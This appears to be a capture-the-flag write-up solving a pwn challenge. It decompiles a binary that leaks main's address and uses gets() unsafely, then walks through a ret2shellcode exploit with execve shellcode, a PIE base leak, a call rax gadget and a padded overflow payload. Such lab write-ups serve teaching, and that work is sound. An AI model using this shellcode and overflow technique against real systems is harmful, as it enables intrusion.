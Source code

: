 ### Challenge Description
![image](https://github.com/user-attachments/assets/adf44968-93f0-4f5b-840e-ef0625f72ad4)
---
Decompile downloaded file: 
Main: 
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\n  (\\_/)");
  puts(asc_200D);
  printf("  / > %p\n\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```
The program gives us ``` main ``` address. We might use it.
Follow: 
```
void __cdecl follow()
{
  char buf[100]; // [rsp+0h] [rbp-70h] BYREF

  gets(buf);
}
```
There is a buffer overflow here. We'll exploit it using **ret2shellcode**. First, let's create our shellcode:
```
shellcode = asm(
    '''
    mov rax, 0x3b             # sys_execve syscall number
    mov rdi, 29400045130965551 
    push rdi                   
    mov rdi, rsp               
    xor rsi, rsi              
    xor rdx, rdx              
    syscall                    
    ''', arch='amd64')
```
Because NX is disabled, we'll put the shellcode onto the stack and try to execute them. One way to do this is using gadget ``` call_rax ``` or ``` jmp_rax ```.
However, PIE is enabled here, so we have to leak the code base and add to the offset of gadget to obtain the real address of it. 

```
main_func = int(r.recvline().strip(), 16)
lb = main_func - exe.sym['main']

call_rax = lb + 0x0000000000001014  # this is call_rax offset, using ROPgadget tool
```

I set a breakpoint after the gets function and this is stack layout:
![image](https://github.com/user-attachments/assets/7d1109ba-29f2-42e6-9dc7-a4229bf8ca30)
To overflow the ``` buf ```, our payload includes the shellcode and the rest to make up 0x78 bytes, final 8 bytes is ``` call rax ``` address. 
```
payload = shellcode
payload = payload.ljust(0x78, b'a') + p64(call_rax)

r.send(payload)
```
Connect to the server, we'll get the flag.


